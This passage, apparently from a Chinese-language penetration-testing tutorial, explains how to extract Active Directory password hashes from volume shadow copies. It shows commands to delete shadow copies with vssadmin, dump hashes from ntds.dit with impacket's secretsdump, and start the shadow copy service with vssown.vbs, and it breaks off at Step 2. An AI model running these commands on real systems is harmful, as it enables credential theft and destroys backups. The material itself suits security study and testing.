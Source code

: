 ```plain
vssadmin delete shadows /for=c: /quiet
```

[![](assets/1706090550-04ccc58af1b3bfeda2556b6d94053c18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095128-17164546-ba5b-1.png)  
Step 4：之后通过 impacket 来导出 hash 值

```plain
./secretsdump.py -system /root/vssadmin/SYSTEM -ntds /root/vssadmin/ntds.dit LOCAL
```

[![](assets/1706090550-c2d5601bd9fb0669c5d8f688cd1eeec5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095153-25f97c36-ba5b-1.png)

### vssown.vbs

与 vssadmin 程序类似，Tim Tomes 开发了 vssown([https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs) )，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。  
Step 1:启动影卷拷贝服务

```plain
cscript vssown.vbs /start
```

[![](assets/1706090550-6590d9891700d3036570db0bf75ecb53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095217-343f07ac-ba5b-1.png)  
Step 2：创建一个 C 盘的影卷拷贝

